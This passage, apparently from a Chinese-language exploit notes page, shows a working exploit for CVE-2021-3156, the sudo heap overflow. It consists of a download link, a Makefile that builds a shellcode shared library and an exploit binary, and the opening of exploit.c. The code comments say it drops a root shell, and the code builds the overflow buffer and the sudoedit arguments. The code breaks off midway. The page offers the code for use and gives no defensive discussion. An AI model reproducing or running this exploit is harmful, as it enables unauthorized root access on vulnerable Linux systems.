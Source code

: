 
## EXP-2
下载地址：[https://github.com/Rvn0xsy/CVE-2021-3156-plus](https://github.com/Rvn0xsy/CVE-2021-3156-plus)

![image-20211105103424904.png](./assets/1659510297372-9ad6376e-9816-46a3-be88-4a7be620b1f2.png)
Makefile
```
all: shellcode exploit

shellcode: shellcode.c
mkdir libnss_x
$(CC) -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c

exploit: exploit.c
$(CC) -O3 -w -o exploit exploit.c

clean:
	rm -rf libnss_x exploit
```

exploit.c
```c
#include <unistd.h> // execve()
#include <string.h> // strcat()
#include <stdio.h>

/* Exploit for CVE-2021-3156, drops a root shell.
 * All credit for original research: Qualys Research Team.
 * https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
 *
 * Tested on Ubuntu 20.04 against sudo 1.8.31
 * Author: Max Kamper
 */



int main(int argc, char * argv[]) {

    if(argc < 2){
	printf("Usage: %s <Command> \n",argv[0]);
	printf("[+]Refrence : @Qualys Research Team @Max Kamper \n");
	printf("[+]Modify by Rvn0xsy@ https://payloads.online\n");	
	return 0;
    }
    char * input_command = argv[1];
    int nSize = strlen(input_command)+6;
    
    char * command = malloc(nSize);
    memset(command,0x00,nSize);
    sprintf(command,"test\n\n%s\n",input_command);
    // 'buf' size determines size of overflowing chunk.
    // This will allocate an 0xf0-sized chunk before the target service_user struct.
    int i;
    char buf[0xf0] = {0};
    memset(buf, 'Y', 0xe0);
    strcat(buf, "\\");

    char* sudoedit_argv[] = {
        "sudoedit",
	    "-S",
        "-s",
        buf,
        NULL};
```